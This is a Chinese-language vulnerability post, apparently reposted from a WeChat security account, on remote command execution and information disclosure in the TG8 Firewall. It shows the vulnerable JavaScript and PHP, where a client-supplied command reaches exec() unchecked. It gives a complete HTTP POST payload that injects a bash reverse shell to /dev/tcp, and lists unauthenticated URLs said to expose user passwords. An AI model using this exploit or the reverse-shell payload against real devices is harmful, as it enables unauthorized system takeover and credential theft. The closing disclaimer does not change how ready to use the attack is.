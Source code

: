 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/dFFQ2bxRfDWdc8W0nWthgQ)

**1、描述**

  

TG8 Firewall RCE 和 信息泄露  

  

  

  

  

  

**2、影响范围**

  

TG8 Firewall  

  

  

  

  

  

**3、代码审计**

  

  

演示一下

该漏洞原因为在 index.php 文件中调用了 runphpcmd.php，其中一行代码为

```
'sudo /home/TG8/v3/syscmd/check_gui_login.sh ' + username + ' ' + pass;
```

从以上可以看到以 sudo 来调用 cmd，显然这里我们可以进行替换，进行任意命令执行。但是我们还有看一下 runphpcmd.php 里面是否有对其的限制和过滤，runphpcmd.php 源码为：

```
function checkLogin() {
    var username = $('input[name=u]').val();
    var pass = $('input[name=p]').val();
    var cmd = 'sudo /home/TG8/v3/syscmd/check_gui_login.sh ' + username + ' ' + pass;
    $.ajax({
      url: "runphpcmd.php",
      type: "post",
      dataType: "json",
      cache: "false",
      data: {
        syscmd: cmd
      },
      success: function (x) {
        if (x == 'OK') {
          ok(username);
        } else {
          failed();
        }
      },
      error: function () {
      ok(username);
        // alert("failure to excute the command");
      }
    })
  }
```

从以上源码可以看出来，并没有对 syscmd 的内容进行验证，结果直接就以 json 格式返回给调用者。  

```
<?php
  header('Content-Type: application/json');
  $response= array();
  $output= array();
  $cmd_1 = $_POST['syscmd'];
  $data = 'cmd= '.$cmd_1."\n";
  $fp = fopen('/opt/phpJS.log', 'a');
  fwrite($fp, $data);
  exec($cmd_1,$output,$ret);
  $data = ' output ='. json_encode($output)."\n*******************************************************\n";
  $fp = fopen('/opt/phpJS.log', 'a');
  fwrite($fp, $data);
  $response[] = array("result" => $output);
  // Encoding array in JSON format
  echo json_encode($output);
?>
```

所以我们就可以构造 payload 了，如下：  

```
POST /admin/runphpcmd.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Connection: keep-alive
syscmd=sudo+%2Fhome%2FTG8%2Fv3%2Fsyscmd%2Fcheck_gui_login.sh+%3Bbash%2F-i%2F>&%2F/dev/tcp/127.0.0.1/10086%2F0>&1%3B++local
```

空格用 %2f 替换，‘;’用 %3B 替换

2、信息泄露  

任何用户都可以通过访问以下 url 路径来枚举防火墙的用户和密码信息。  

```
http://127.0.0.1/data/w-341.tg
http://127.0.0.1/data/w-342.tg
http://127.0.0.1/data/r-341.tg
http://127.0.0.1/data/r-342.tg
```

公众号

公开漏洞库地址：**wiki.xypbk.com**

请勿用于非法入侵，后果自负。

数据大多来源于网络、零组文库和 peiqi 文库和本站挖掘的漏洞，若侵权请联系微信公众号 “Qingy 之安全” 进行删除处理。

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

只为大家提供便利，绝无任何利益，希望大家不要乱来，承担了很大的风险。

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibAdOLQFp6kJKu2LkZFcAC5NJZjDdNmdibgxUsnXLpe60KGcB2mDglAVUIGxFRScce5gDGTjVabzV1Q/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibAdOLQFp6kJKu2LkZFcAC5Nj0npvqW3Z6JmvwkTQOxMIqW7aVh8dWt3MMAiaibExuuGxg9KlyDfK0xA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibAdOLQFp6kJKu2LkZFcAC5Nf5gRJRF6vesz3VsH7ibic858V8ROSy6rgUHNOeTia4icdm7HibvCz7SSP9Q/640?wx_fmt=jpeg)